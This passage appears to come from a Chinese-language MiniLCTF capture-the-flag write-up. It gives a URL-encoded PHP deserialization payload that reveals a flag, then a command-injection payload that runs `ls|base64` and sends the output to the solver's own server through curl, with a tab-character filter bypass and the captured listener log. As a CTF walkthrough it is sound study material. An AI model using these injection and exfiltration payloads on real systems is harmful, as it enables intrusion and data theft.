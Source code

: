 运行一下得到payload

```
O%3A2%3A%22gg%22%3A1%3A%7Bs%3A6%3A%22%00gg%00gg%22%3BO%3A5%3A%22start%22%3A2%3A%7Bs%3A13%3A%22%00start%00start1%22%3BO%3A3%3A%22cat%22%3A0%3A%7B%7Ds%3A13%3A%22%00start%00start2%22%3BO%3A5%3A%22test2%22%3A1%3A%7Bs%3A8%3A%22%00test2%00a%22%3BO%3A4%3A%22flag%22%3A0%3A%7B%7D%7D%7D%7D

```

传入得到`MiniLCTF{eaSy_pHp_Uns3r1zal1z3_}`

![img](https://ws1.sinaimg.cn/large/006Vib6xly1frebdt2n18j30az0520t9.jpg)

### CURL

```
没过滤全

```

命令注入

payload

```
curl=vpsip:port/`ls|base64`

```

我们也可以加上`head`和`tail`参数来限制返回的行数

例如

```
ls|base64|head -n 2|tail -n 1

```

空格使用`%09`绕过

在服务器上监听

```
Listening on [0.0.0.0] (family 0, port 2333)
Connection from 45.40.207.251 53920 received!
GET /LS02eGFramRoY2ZoY25zawotLTd4YWJmOHNhaGRjaGZ1ZHkudHh0CmNzcwppbmRleC5waHAK HTTP/1.1
User-Agent: curl/7.38.0

```

用base64解码一下`LS02eGFramRoY2ZoY25zawotLTd4YWJmOHNhaGRjaGZ1ZHkudHh0CmNzcwppbm`

得到

```
--6xakjdhcfhcnsk
--7xabf8sahdchfudy.txt
css
index.php

```

